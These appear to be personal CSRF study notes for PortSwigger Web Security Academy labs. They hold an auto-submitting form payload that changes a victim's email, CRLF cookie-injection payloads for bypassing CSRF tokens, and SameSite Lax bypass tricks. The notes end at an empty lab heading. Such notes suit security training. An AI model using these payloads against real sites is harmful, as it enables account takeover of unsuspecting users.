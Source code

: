 # CSRF Notes

[Portswigger](https://portswigger.net/web-security/csrf)

## random

if you notice a live chat service check your web sockets, this might be vulnerable to cross-site websocket hijacking


## Methodology

- In burp pro find a request that changes something you want for the user like a request to `update email`.
- right click the request and select `Engagement tools > Generate CSRF PoC`

Alternatively you can use a sample code like this without burp pro
- paste this code into your exploit server, and select `store`

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

- View the exploit to verify that it works, change the email address so that it doesn't match your own and select `deliver to victim`

__csrf token bypasses__

- change request method from post to get
- just delete the csrf token
- Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
- Observe LastSearchTerm in Set-Cookie header. Change it to /?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY and create the next payload to set this key to victim: `<script>location="https://xxx.web-security-academy.net/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY"</script>`
- similar as above just set the cookie: `/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`

__sameSite bypasses__

**lax bypass**
- when observing a `POST /my-account/change-email`, and your change request method to sending it as a `GET` doesn't work, `append _method=POST` to the URL to bypass it
- review requests for resources like script and image files notice a `Access-Control-Allow-Origin` header exposing a sibling domain that we can use to abuse samesite bypasses


## labs walkthrough

### CSRF vulnerability with no defenses
